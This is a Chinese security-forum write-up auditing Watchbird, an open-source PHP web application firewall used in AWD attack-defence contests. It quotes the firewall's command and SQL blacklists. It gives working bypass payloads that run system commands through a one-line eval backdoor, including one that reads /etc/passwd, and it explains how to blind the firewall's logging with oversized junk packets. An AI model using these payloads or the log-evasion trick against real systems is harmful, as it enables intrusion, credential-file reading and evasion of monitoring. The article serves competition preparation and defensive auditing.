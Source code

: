 ```yaml
---
title: 奇安信攻防社区 - 对 AWD 流行开源 WAF（1） -- Watchbird 的白盒审计
url: https://forum.butian.net/share/2817
clipped_at: 2024-03-29 09:38:28
category: default
tags: 
 - forum.butian.net
---
```



# 奇安信攻防社区 - 对 AWD 流行开源 WAF（1） -- Watchbird 的白盒审计

# 简介

众所周知，AWD 攻防是一个节奏非常快，时间比较紧张的比赛模式。而如果在这种情况下，一些队伍在自己的靶机上部署了 waf 和流量监控脚本，通常来说是很难在比赛过程中绕过的。于是提前对这些应用广泛的开源 waf 进行审计，拿到一些绕过的 trick，可以在比赛中获取优势。

**Watchbird 项目地址：[https://github.com/leohearts/awd-watchbird](https://github.com/leohearts/awd-watchbird)**

# 测试过程

先给大家展示一下这个 waf 的后台日志部分：

在右下角绿色区域，是记录不受拦截的流量日志（正常流量或绕过 waf 的流量）；  
其他三个划了红圈的区域，则是拦截到攻击的流量。  
![image.png](assets/1711676308-e89c3a99112458980211fb377bfb5693.png)

这边就以藏有一句话木马后门 \\<?php eval ($\_GET \['file'\]); ?>，且包含了 watchbird 的一个 index.php 为例子，展开如下测试。

## RCE 黑名单突破绕过

如下，这是源码中对 rce 的黑名单，可以看到绝大多数常用的危险函数都被过滤了，包括用于编码转换的 base64 和 rot13 的函数：

```php
public $rce_blacklist = "/\`|var_dump|str_rot13|serialize|base64_encode|base64_decode|strrev|eval\(|assert|file_put_contents|fwrite|curl_exec\(|dl\(|readlink|popepassthru|preg_replace|preg_filter|mb_ereg_replace|register_shutdown_function|register_tick_function|create_function|array_map|array_reduce|uasort|uksort|array_udiff|array_walk|call_user_func|array_filter|usort|stream_socket_server|pcntl_exec|passthru|exec(|system(|chroot\(|scandir\(|chgrp\(|chown|shell_exec|proc_open|proc_get_status|popen\(|ini_alter|ini_restore|ini_set|LD_PRELOAD|ini_alter|ini_restore|ini_set|base64 -d/i";
```

但是如果根据黑名单去过滤的话，一旦忘记了 ban 掉某个危险函数（像这个黑名单里缺少了 putenv () 之类的函数），或者攻击者在格式上有所突破的话（类似 HTTP 分段请求注入，也可以绕过很多 waf），那就可以被随意攻击了。

### Trick 1：取反绕过

执行 system ('whoami');

```php
payload:?file=(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);
```

可以看到成功在前端输出 whoami 的执行结果，并且后端日志检测为安全。  
![image.png](assets/1711676308-cc0cc589d46bf19506dfd26c725e161c.png)

![image.png](assets/1711676308-e4b767c1f9c1eeee296fdb9debb7f4ac.png)

### Trick 2：字符串拼接绕过

```php
payload: ?file=(sy.(st).em)(whoami);
```

*图略，结果同 Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 3：内联注释绕过

有点像绕 mysql 时候，加 /*\\*/ 之类的字符绕过检测。

```php
payload: ?file=(sy./\*caixukun\*/(st)/\*caixukun\*/.em)/\*caixukun\*/(wh./\*caixukun\*/(oa)/\*caixukun\*/.mi);
```

*图略，结果同 Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 4：对函数进行编码转换绕过

```php
payload:?file="\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");
```

![image.png](assets/1711676308-a430d215741a04841e79c66d3807c8b8.png)

![image.png](assets/1711676308-deba5df4a6d4211305dcd6165833ba73.png)  
给大家留一个编码转换脚本：

```python
def string_to_hex_str(s):  
    # 编码为字节，然后格式化每个字节为十六进制字符串，并连接它们  
    return ''.join('\\x{:02x}'.format(b) for b in s.encode('utf-8'))  

s = "system"  
hex_encoded_str = string_to_hex_str(s)  
print(hex_encoded_str) # 输出：\x73\x79\x73\x74\x65\x6d
```

## SQL 注入黑名单突破绕过

这是 sql 语句的黑名单，相对 rce 黑名单来说，相信大家能感觉出来它有点形同虚设：

```php
public $sql_blacklist = "/drop |dumpfile\b|INTO FILE|union select|outfile\b|load_file\b|multipoint\(/i";
```

比如 union select，是放在一起过滤而不是分开检测，在两个单词中间多加几个空格甚至都能绕过。

## 文件上传点的理论突破

这个 waf 的检测恶意文件使用了白名单，比较难绕，但是可以注意到，他是先上传文件，然后再检测，检测到有问题再删除。

![image.png](assets/1711676308-01ebfe19a8bb3710e96a7654421e0151.png)  
于是可以用条件竞争的方式，去试着边写一个能生成新木马的 php 文件，边对它进行访问，最后成功创建一个新 shell。

但是这只存在于理论，因为一是 awd 时间比较短，条件竞争产出比较慢，可能来不及成功；二是该 waf 自带一个 ddos 防御功能，在爆破的时候七成以上数据包都会被 waf 拦截掉。

## 绕过流量日志的监测

可以看到，单个日志大小最多为 4w 个字符  
![image.png](assets/1711676308-18e6545396d4a48c5c55601781dbaf99.png)

再来到源码 533 行，可以看到在记录日志时候，如果日志大小超出了上述最大值，就会进行一次全部删除。

![image.png](assets/1711676308-05f9617f935a4538cc0236d17afb0b54.png)  
根据这个特性，如果我们的测试 payload 数据包大于这个值，填入很多很大的脏数据，那它的后台将不会显示有这条日志记录（但是 waf 对关键词还是照样匹配拦截的）。

具体效果如下：我用 bp 抓包，包里放一堆 python 生成的脏数据，点击发送  
![image.png](assets/1711676308-6e379c85d168e22a860e93e5ae445793.png)

可以看到日志后台直接被致盲，不会记录任何东西

![image.png](assets/1711676308-0ba54f8d3f881fce2527f713b01327d1.png)

# 总结

比赛过程中如果遇到这样的 watchbird，可以直接拿本文的思路去试试。  
类似这样基于黑白名单的 waf，再加上项目年久失修（虽然也就一两年），往往突破口还是比较多的，所以现在正经大厂商的 waf 都在往语义识别，AI 识别上靠拢。
